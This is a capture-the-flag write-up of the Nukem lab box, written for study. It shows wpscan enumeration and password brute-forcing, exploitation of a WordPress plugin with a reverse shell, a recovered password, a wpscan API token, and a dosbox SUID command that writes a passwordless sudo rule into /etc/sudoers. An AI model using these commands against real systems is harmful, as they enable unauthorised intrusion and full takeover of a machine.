







# Nukem -- Proving Grounds (write-up)

**Difficulty:** Intermediate
**Box:** Nukem (Proving Grounds)
**Author:** dkrxhn
**Date:** 2025-03-24

---

## TL;DR

### WordPress with Simple File List plugin RCE. Password found in config. Privesc via dosbox SUID arbitrary file write to /etc/sudoers.
---
## Target info

- Host: `192.168.220.105`
- Services discovered: `80/tcp (http/wordpress)`
---
## Enumeration



Enumerated WordPress users:

```bash
wpscan --url http://192.168.220.105 -e u
```



**Brute-forced admin password for 22 min with no results:**

```bash
wpscan --url http://192.168.220.105 -U admin -P /usr/share/wordlists/rockyou.txt
```

Ran aggressive plugin detection:

```bash
wpscan --url http://192.168.220.105 -e ap --plugins-detection aggressive --api-token xLbPu8UpTv2bEWHfDPm8XaQNgO08WsDYjaqJH9bdaQM
```

---
## Initial access

Found Simple File List plugin. **Tried multiple exploits including [this](https://github.com/RandomRobbieBF/simple-file-list-rce) and [this](https://github.com/v3l4r10/Nukem-PG-exploit) but couldn't get them to work.**

Changed the payload on exploit 48979 to PHP PentestMonkey reverse shell from revshells.com -- got a shell.



Found password: `CommanderKeenVorticons1990`





---
## Privilege escalation

Found dosbox with SUID bit:



Used dosbox for arbitrary file write to add sudo entry:

```bash
LFILE='/etc/sudoers'
/usr/bin/dosbox -c 'mount c /' -c "echo commander ALL=(ALL) NOPASSWD: ALL >> c:$LFILE" -c exit
```



---
## Lessons & takeaways

- When public exploits fail, swap the payload (e.g., PentestMonkey PHP shell) rather than giving up
- SUID dosbox = arbitrary file write via its `mount` and file I/O commands
- Check GTFOBins for unusual SUID binaries like dosbox
---
